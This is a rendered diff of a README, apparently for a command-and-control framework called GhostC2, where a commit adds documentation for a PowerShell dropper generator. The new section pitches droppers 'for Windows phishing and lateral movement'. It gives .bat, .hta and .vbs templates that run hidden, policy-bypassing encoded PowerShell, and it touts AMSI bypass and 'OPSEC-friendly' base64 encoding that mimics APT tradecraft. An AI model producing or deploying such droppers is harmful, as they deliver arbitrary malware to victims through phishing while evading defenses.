

Before and after one commit to wolfwashere/GhostC2, a Markdown page: README.md, the part around the change printed below. Shown: that part at 80% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -300,14 +321,87 @@ port = 1443
 ### 📁 Payload Directory Structure
 
 Generated payloads are stored in:
+
 ```
 server/payloads/
 ```
 
 They are automatically served via Flask using:
+
 ```python
 send_from_directory('payloads', filename)
 ```
 
 ---
 
+## 🧰 PowerShell Dropper Generator (**NEW**)
+
+GhostC2 now supports **one-click, base64-encoded PowerShell droppers** for Windows phishing and lateral movement, in `.bat`, `.hta`, and `.vbs` formats.
+
+### ✅ Features:
+
+* Supports *any* PowerShell payload (multi-line, obfuscated, AMSI bypass, etc.)
+* Base64-encoding is default and recommended for all wrapper types (`.bat`, `.hta`, `.vbs`)
+* Classic inline mode available for legacy single-line scripts
+
+### 🧪 Generating a Dropper
+
+1. Run the Flask server:
+
+   ```bash
+   python3 server/app.py
+   ```
+2. Navigate to the dashboard and click:
+   **“Generate PS Dropper”**
+3. Paste your `.ps1` payload, select the desired wrapper, and generate.
+4. Download your dropper from the dashboard.
+
+---
+
+### **Example Outputs**
+
+#### **.bat Wrapper**
+
+```bat
+powershell -nop -w hidden -ep bypass -EncodedCommand <BASE64>
+```
+
+#### **.hta Wrapper**
+
+```html
+<script language="VBScript">
+Set objShell = CreateObject("WScript.Shell")
+objShell.Run "powershell -w hidden -ep bypass -EncodedCommand <BASE64>"
+self.close
+</script>
+```
+
+#### **.vbs Wrapper**
+
+```vb
+Set objShell = CreateObject("WScript.Shell")
+objShell.Run "powershell -w hidden -ep bypass -EncodedCommand <BASE64>", 0
+```
+
+* Replace `<BASE64>` with the encoded payload (generated automatically).
+* These droppers will execute **any PowerShell payload**, regardless of complexity.
+
+---
+
+### 🛡️ **Why Base64?**
+
+* **Handles any script** (multi-line, special chars, quotes)
+* **OPSEC-friendly**—mimics real red team and APT tradecraft
+* **Bypasses most encoding/quoting errors** in delivery chains
+
+Base64-encoding is enabled by default and recommended for all dropper types.
+
+---
+
+### 📝 Advanced Options
+
+* **Checkbox** on the dropper generation page allows switching between encoded and classic inline payloads (not recommended unless you have a single-line command).
+* All droppers are saved to `server/static/payloads/` and available for download via the dashboard.
+
+---
+
````
Also changed, not shown: other parts of README.md (+90 -52 lines).
